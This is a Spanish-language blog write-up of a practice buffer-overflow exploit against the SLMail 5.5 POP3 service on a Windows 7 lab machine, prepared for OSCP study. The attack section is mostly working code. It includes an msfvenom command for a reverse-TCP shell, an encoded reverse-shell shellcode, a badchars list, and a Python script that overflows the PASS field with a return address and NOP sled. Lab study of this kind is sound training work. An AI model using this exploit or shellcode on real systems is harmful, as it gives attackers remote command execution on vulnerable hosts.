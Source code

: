 ```yaml
---
title: Buffer OverFlow a SLMail 5.5
layout: page
permalink: /bufferOverflow_1er_Practica
---
```

## Buffer OverFlow a SLMail 5.5.
**Descripción**

En esta publicación detallo mi practica a un Buffer OverFlow usando Python3 para la ejecución remota de comandos RCE a bajo nivel, y persistencia en un sistema Windows 7 de 32 bits.

### Firewall de Windows y reglas de Entrada/Salida - Configuración Parte 1

Lo primero es configurar una maquina Windows para montar el entorno de practica, y es importante que este bien configurado para tener comunicación entre maquinas `(La maquina Windows con el binario vulnerable, y nuestra maquina de atacante).`

> *Se usara un sistema Windows 7 de 32 bits, la versión starter.*

<div style="text-align: center;">
  <img src="/assets/images/BOF-SLMail/W7.png" alt="bof" oncontextmenu="return false;">
</div>

---
Después de instalar la maquina Windows, es muy importante que haya comunicación entre las 2 maquinas mediante trazas **ICMP**, debido a que por defecto estas reglas vienen deshabilitadas, por tanto, para lograr esta configuración debemos ir a la configuración avanzada de firewall de Windows y habilitar las reglas de Entrada/Salida para tener la comunicación por iPv4 y por iPv6.

<div style="text-align: center;">
  <img src="/assets/images/BOF-SLMail/ReglasEntrada.png" alt="bof" oncontextmenu="return false;">
</div>

---
> En la imagen se muestran las reglas de entrada donde hay que habilitar las cuatro reglas para poder recibir una comunicación de nuestra maquina de atacante, de esta forma habrá una comunicación, por tanto hay que repetir el proceso para las reglas de salida.

<div style="text-align: center;">
  <img src="/assets/images/BOF-SLMail/ReglasSalida.png" alt="bof" oncontextmenu="return false;">
</div>

---
Una vez con las reglas habilitadas probamos la comunicación.

<div style="text-align: center;">
  <img src="/assets/images/BOF-SLMail/PruebaPing.png" alt="bof" oncontextmenu="return false;">
</div>

---
Al enviar 4 paquetes y recibirlos confirma que hay comunicación entre maquinas completando el primer paso para dar inicio a la practica del BufferOverflow.

### Desactivar el DEP - Configuración Parte 2

Esta parte es importante, debemos abrir un símbolo del sistema como administrador y ejecutar el siguiente comando.

```bash
bcdedit.exe /set {current} nx AlwaysOff
```

<div style="text-align: center;">
  <img src="/assets/images/BOF-SLMail/DEP.png" alt="bof" oncontextmenu="return false;">
</div>

---
Estamos desactivando el *DEP* `(Data Execution Protection)`, pero para todo el sistema, también se puede hacer para el binario Slmail concretamente desde el apartado GUI, pero al ser una maquina virtual que su único propósito es la practica de BufferOverflow y después será eliminada. La verdad es que no supone ningun problema este comando.

> *Debemos reiniciar el sistema para que se apliquen los cambios* 

### Utilidades - Configuración Parte 3

Para las utilidades se descargaran unas aplicaciones para hacer el trabajo mas cómodo, por tanto, se descargara el binario al cual vamos a atacar *(Slmail_5.5 ya que es vulnerable a BOF)* la aplicación **Inmunity Debugger** para monitorizar todo a bajo nivel.

> Una vez instalado El binario Slmail debemos reiniciar nuestro sistema

Nos vamos a sistema y seguridad, sistema, configuración avanzada del sistema, configuración y prevención de ejecución de datos. Aquí vemos que el *DEP*` (Data Execution Protection)` este deshabilitado.

<div style="text-align: center;">
  <img src="/assets/images/BOF-SLMail/DEPvalidacion.png" alt="bof" oncontextmenu="return false;">
</div>

---
El binario SLmail trabaja en el `puerto 25` y el `puerto 110` que corren esta utilidad.

Para ver la comunicación hay que crear una nueva regla, donde a nivel de protocolo **TCP** hay que especificar los `puertos 25, 110` y permitir la comunicación.

Se procede a instalar la utilidad **mona.py** para trabajar con **Inmunity Debuuger**.

<div style="text-align: center;">
  <img src="/assets/images/BOF-SLMail/mona.png" alt="bof" oncontextmenu="return false;">
</div>

---
> A continuación la vista del script **mona.py** desde el **Inmunity Debugger**.

<div style="text-align: center;">
  <img src="/assets/images/BOF-SLMail/mona2.png" alt="bof" oncontextmenu="return false;">
</div>

---
### Enumeración

Mediante `nmap -sS --min-rate 5000 --open -vvv -n -Pn` obtendremos los resultados del escaneo.

<div style="text-align: center;">
  <img src="/assets/images/BOF-SLMail/nmap.png" alt="bof" oncontextmenu="return false;">
</div>

---
### Badchars

Son necesarios para evitar conflictos al momento de crear nuestra shellcode y que el registro ESP pueda interpretar nuestro código y proporcionarnos nuestra reverse Shell, o el comando que queramos inyectar en el sistema.

```c
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0b\x0c\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f"
"\x40\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
```
### Shellcode
```c
"\xda\xd7\xd9\x74\x24\xf4\xbf\xe4\x1f\x0e\x1c\x5a\x31\xc9"
"\xb1\x52\x83\xc2\x04\x31\x7a\x13\x03\x9e\x0c\xec\xe9\xa2"
"\xdb\x72\x11\x5a\x1c\x13\x9b\xbf\x2d\x13\xff\xb4\x1e\xa3"
"\x8b\x98\x92\x48\xd9\x08\x20\x3c\xf6\x3f\x81\x8b\x20\x0e"
"\x12\xa7\x11\x11\x90\xba\x45\xf1\xa9\x74\x98\xf0\xee\x69"
"\x51\xa0\xa7\xe6\xc4\x54\xc3\xb3\xd4\xdf\x9f\x52\x5d\x3c"
"\x57\x54\x4c\x93\xe3\x0f\x4e\x12\x27\x24\xc7\x0c\x24\x01"
"\x91\xa7\x9e\xfd\x20\x61\xef\xfe\x8f\x4c\xdf\x0c\xd1\x89"
"\xd8\xee\xa4\xe3\x1a\x92\xbe\x30\x60\x48\x4a\xa2\xc2\x1b"
"\xec\x0e\xf2\xc8\x6b\xc5\xf8\xa5\xf8\x81\x1c\x3b\x2c\xba"
"\x19\xb0\xd3\x6c\xa8\x82\xf7\xa8\xf0\x51\x99\xe9\x5c\x37"
"\xa6\xe9\x3e\xe8\x02\x62\xd2\xfd\x3e\x29\xbb\x32\x73\xd1"
"\x3b\x5d\x04\xa2\x09\xc2\xbe\x2c\x22\x8b\x18\xab\x45\xa6"
"\xdd\x23\xb8\x49\x1e\x6a\x7f\x1d\x4e\x04\x56\x1e\x05\xd4"
"\x57\xcb\x8a\x84\xf7\xa4\x6a\x74\xb8\x14\x03\x9e\x37\x4a"
"\x33\xa1\x9d\xe3\xde\x58\x76\xcc\xb7\x62\x96\xa4\xc5\x62"
"\x97\x8f\x43\x84\xfd\xff\x05\x1f\x6a\x99\x0f\xeb\x0b\x66"
"\x9a\x96\x0c\xec\x29\x67\xc2\x05\x47\x7b\xb3\xe5\x12\x21"
"\x12\xf9\x88\x4d\xf8\x68\x57\x8d\x77\x91\xc0\xda\xd0\x67"
"\x19\x8e\xcc\xde\xb3\xac\x0c\x86\xfc\x74\xcb\x7b\x02\x75"
"\x9e\xc0\x20\x65\x66\xc8\x6c\xd1\x36\x9f\x3a\x8f\xf0\x49"
"\x8d\x79\xab\x26\x47\xed\x2a\x05\x58\x6b\x33\x40\x2e\x93"
"\x82\x3d\x77\xac\x2b\xaa\x7f\xd5\x51\x4a\x7f\x0c\xd2\x7a"
"\xca\x0c\x73\x13\x93\xc5\xc1\x7e\x24\x30\x05\x87\xa7\xb0"
"\xf6\x7c\xb7\xb1\xf3\x39\x7f\x2a\x8e\x52\xea\x4c\x3d\x52"
"\x3f"
```

### Código del Script

Para conseguir el shellcode se puede hacer uso de la herramienta **msfvenom**.

> msfvenom -p windows/shell_reverse_tcp LHOST=ip LPORT=443 -a x86 --platform windows -b '\x00\x0a\x0d' -e x86/shikata_ga_nai -f c

El script esta hecho en python3.

<div style="text-align: center;">
  <img src="/assets/images/BOF-SLMail/script.png" alt="bof" oncontextmenu="return false;">
</div>

---
```python
#!/usr/bin/python
# Juan Garcia (aka liandd)
from pwn import *
from struct import pack
import socket, sys

def exploit(ip_address, rport):
    # Escapar el shellcode con b para indicar que son bytes
    shellcode= (b"\ejemplo")

    buffer = b"A" * 2606 + pack("<L", 0x5f4a358f) + b"\x90"*16 + shellcode
    
    p1 = log.progress("Data")
    try:
        p1.status("Enviando %s bytes" % len(buffer))
        s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((ip_address, rport))
        s.recv(1024)
        s.send(b'USER eva\r\n')
        s.recv(1024)
        s.send(b'PASS ' + buffer + b'\r\n')
        s.recv(1024)
    except Exception as e:
        print("\n[!] Ha habido un error de conexión:", e)
        sys.exit(0)

if __name__ == '__main__':
    if len(sys.argv) < 2:
        print ("\n[!] Uso : python " + sys.argv[0] + " <ip-address>\n")
        sys.exit(0)

    ip_address = sys.argv[1]
    rport = 110

    exploit(ip_address, rport)
```

### Conclusión

El Script es compilado y funciona correctamente.

---

Esta publicación ha sido creada como soporte en el aprendizaje de BufferOverFlow para la OSCP.

© Juan David Garcia Acevedo (aka liandd)